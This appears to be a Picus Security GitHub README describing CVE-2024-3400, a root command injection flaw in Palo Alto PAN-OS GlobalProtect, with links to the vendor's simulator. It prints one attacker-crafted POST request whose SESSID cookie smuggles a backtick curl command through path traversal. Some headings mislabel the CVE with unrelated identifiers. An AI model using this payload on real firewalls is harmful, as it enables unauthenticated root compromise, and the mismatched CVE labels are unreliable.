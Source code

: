 # Palo Alto PAN-OS CVE-2024-3400 PoC Exploit
Palo Alto Networks disclosed a critical vulnerability affecting PAN-OS software used in security appliances like their next-generation firewalls. CVE-2024-3400 is a command injection vulnerability with a CVSS score of 10.0 (Critical). The vulnerability allows adversaries to execute commands in Palo Alto firewalls with root privileges remotely. <br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2024-3400 vulnerability.

Test security controls against the CVE-2024-3400 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2024-3400 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://www.picussecurity.com/emerging-threat-simulator?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 
If you are looking for more detailed information, check out our blog post: [CVE-2024-3400: Palo Alto PAN-OS Command Injection Vulnerability Explained](https://www.picussecurity.com/resource/blog/cve-2024-3400-palo-alto-pan-os-command-injection-vulnerability-explained)

CVE-2024-3094 Proof-of-concept (POC)
----------------------
CVE-2024-3400 is a command injection vulnerability found in the GlobalProtect feature of PAN-OS software. The telemetry functionality in the GlobalProtect uses the curl command to send logs from a temporary directory. Using malformed SESSID, adversaries were able to inject shell commands with root privileges via unauthenticated HTTP post requests. 

#### Example CVE-2023-42793 Exploit:
```http
//Attacker-crafted POST request
POST/ssl-vpn/hipreport.esp HTTP/1.1
Cookie: SESSID=/../../../opt/panlogs/tmp/device_telemetry/minute/hello`curl{$IFS}example.com`;

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.